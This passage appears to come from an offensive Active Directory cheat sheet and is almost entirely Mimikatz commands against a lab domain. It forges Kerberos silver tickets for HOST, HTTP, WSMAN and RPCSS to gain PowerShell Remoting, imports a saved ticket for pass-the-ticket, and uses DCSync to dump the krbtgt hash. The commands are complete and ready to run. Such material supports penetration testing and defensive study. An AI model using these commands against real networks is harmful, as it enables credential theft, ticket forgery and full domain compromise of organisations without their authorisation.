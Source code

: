 *This is only effective when the forged ticket is created in the Forest root domain, though add using /sids parameter for AD forest admin rights.

In order to enable PowerShell Remoting the Silver Tickets for HOST, HTTP, WSMAN and RPCSS must be generated:

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:HOST /ptt"'
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:HTTP /ptt"'
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:WSMAN /ptt"'
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:RPCSS /ptt"'
```

```batch
:: mimikatz.exe
mimikatz # kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:HOST /ptt
mimikatz # kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:HTTP /ptt
mimikatz # kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:WSMAN /ptt
mimikatz # kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /rc4:f9c4b6d4b94e39ea0391a16b3deacc16/target:computer1.cyberlab.cybercorp.local /service:RPCSS /ptt
```

Import a previously created ticket:

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

```batch
:: mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi
```

## DCSync

Use the DCSync feature to get krbtgt hash (requires DCSync privileges):

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\krbtgt /domain:cyberlab.local"'	
```

```batch
:: mimikatz.exe
mimikatz # lsadump::dcsync /user:cyberlab\krbtgt
mimikatz # lsadump::dcsync /user:cyberlab\krbtgt /domain:cyberlab.local
```
---